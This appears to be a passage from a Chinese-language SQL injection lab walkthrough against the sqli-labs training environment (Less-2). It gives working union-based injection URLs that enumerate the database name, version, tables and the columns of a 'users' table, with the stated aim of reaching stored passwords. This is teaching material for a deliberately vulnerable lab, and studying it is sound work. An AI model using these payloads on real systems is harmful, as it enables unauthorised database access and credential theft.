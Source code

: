 @@hostname    服务器主机名

@@basedir     数据库安装路径

@@version_compile_os   操作系统

通过获取得知数据库版本：5.5.53，数据名：security。

URL：http://192.168.10.150/sqlilabs/Less-2/?id=-1 union select 1,database(),version()--+

![img](assets/PhwDuR9Qj51lmfZ.jpg) 

#### 2.6.1.5.**获取数据库下的表**

通过上述获取到的数据库版本是>5.0的，那么我们根据知识点中提到的数据库版本>5.0会存在information_schema，根据这个方式对其进行获取数据库下的表的注入操作。

URL：http://192.168.10.150/sqlilabs/Less-2/?id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema="security"--+

![img](assets/mDphNRkMvuoP6B3.jpg) 

#### 2.6.1.6.**获取数据库表下的列**

从上面获取到的表有4个表，但是我们需要获取到的是数据库中的账号密码，通过上面4个表的名字进行判断，猜测用户数据存在users中。

URL：http://192.168.10.150/sqlilabs/Less-2/?id=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name="users"--+

![img](assets/9MzBhbC5rqTmUGk.jpg) 
